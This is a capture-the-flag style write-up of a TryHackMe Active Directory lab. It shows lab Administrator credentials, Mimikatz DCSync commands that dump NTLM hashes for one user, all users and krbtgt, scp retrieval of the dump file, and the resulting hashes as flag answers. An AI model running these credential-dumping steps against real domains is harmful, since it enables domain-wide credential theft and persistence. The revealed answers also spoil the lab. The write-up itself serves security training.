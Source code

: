 * Username: `Administrator`
* Password: `tryhackmewouldnotguess1@`
* Domain: `ZA`

### Task 2

DC Sync All

Connecting to the `THMWRK1` machine using SSH and the DA account:

```bash
$ ssh za.tryhackme.loc\\Administrator@thmwrk1.za.tryhackme.loc
```

Once logged in, start a powershell session and use `Mimikatz` to harvest credentials:

```powershell
> powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

First, performing a DC sync of a single account, our low privilege user:

```powershell
> lsadump::dcsync /domain:za.tryhackme.loc /user:AD_USERNAME
# NTLM hash in my case: 64d1489c0810a90e2c2ad386bcda734e
```

However, to perform a DC sync for every account, we need to enable logging on `Mimikatz`:

```powershell
> log AD_USERNAME_dcdump.txt
```

After the command is completed, we can exit `Mimikatz` and download the `AD_USERNAME_dcdump.txt` file to our attacking machine using scp:

```bash
$ scp Administrator@THMWRK1.za.tryhackme.loc:C:/Users/Administrator.ZA/christine.hall_dcdump.txt .
# christine.hall was the name of my AD Username
```

We can type the command `cat AD_USERNAME_dcdump.txt | grep "SAM Username"` to recover all usernames and `cat AD_USERNAME_dcdump.txt | grep "Hash NTLM"` for all hashes.

To answer the questions, we can perform a DCSync attack for the username of test with the following command:

```powershell
> lsadump::dcsync /domain:za.tryhackme.loc /user:test
```

For the final question, we can perform a DCSync attack for the krbtgt user and get the flag which is the NTLM hash:

```powershell
> lsadump::dcsync /domain:za.tryhackme.loc /user:krbtgt@za.tryhackme.loc
# NTLM hash: 16f9af38fca3ada405386b3b57366082
```

### Task 3
